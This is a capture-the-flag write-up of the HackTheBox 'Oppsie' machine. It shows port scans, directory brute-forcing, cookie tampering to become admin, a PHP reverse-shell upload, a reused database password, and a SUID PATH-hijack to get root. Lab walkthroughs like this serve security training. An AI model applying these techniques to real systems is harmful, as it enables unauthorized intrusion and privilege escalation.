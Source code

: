 # HACKTHEBOX - Oppsie

## Enumeration:
```bash
alias rustscan='sudo docker run -it --rm --name rustscan rustscan/rustscan'
rustscan -a $IP --greppable # [22,80]

sudo nmap -v -sV -sC -p 22,80 -o nmap.txt $IP # sudo for SYN Stealth Scan
```

**nmap results**:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Welcome
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Working with port 80:

Main page is a boring web template, nothing much to inspect. Let's brute-forcing web directory:
```bash
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://$IP/
# /server-status --> 403 Forbidden
# /uploads --> 403 Forbidden
```

**Boring exploit to gain admin access**:

Duh!! try using crawler from Burp-Suite to build Site-Map(listening all traffic to build a map), found: `/cdn-cgi/login/`

Login as guest --> uploads --> This action require super admin 

Login as guest --> account --> ?content=accounts&id=2 is [2233]guest--> ?content=accounts&id=1 is [34322]admin

Change cookies from user=2233 && role=guest to user=34322 && role=admin --> *ADMIN HERE!!*

Upload `php-reverse-shell.php` --> trigger by `/uploads/php-reverse-shell.php` --> *reverse shell here!!*

Oldy upgrade normal shell to interactive shell!!
```bash
which python3 # yes
python3 -c "import pty; pty.spawn('/bin/bash')"
# Ctrl + z
stty -raw echo; fg
export TERM=xterm-256color
stty rows 40 columns 173
export SHELL=bash
```

From `/var/www/html/cdn-cgi/login/db.php`:
```php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```
Sweet, let's switch to `robert` account, `www-data` is lowest and boring privileges to messing around!!
```bash
su robert
# Password: M3g4C0rpUs3r!
```
From `/home/robert/user.txt`:

**user flag**: `HTB{f2c74ee8db7983851ab2a96a44eXXXXX}` 

**Find executable file bugtracker group**: `find / -group bugtracker -type f 2>/dev/null` --> `/usr/bin/bugtracker`

This also can be done by finding SUID file: `-perm u=s`

`/usr/bin/bugtracker` is SUID(set owner user id) by root(executed under privileges of root)
```bash
/usr/bin/bugtracker
# Enter bug ID: 1000 --> error --> cat: /root/reports/10000 --> the executable being called in an insecure manner(not being called full path)

# Ok, let's manipulate $PATH variable to gain root access!
cd /tmp
echo "/bin/bash" > cat # spawn bash shell in root privileges!
export PATH=/tmp:$PATH
/usr/bin/bugtracker # Enter bug ID: 0
whoami # root
```

From `/root/root.txt`:

**root flag**: `HTB{af13b0bee69f8a877c3faf667f7XXXXX}`

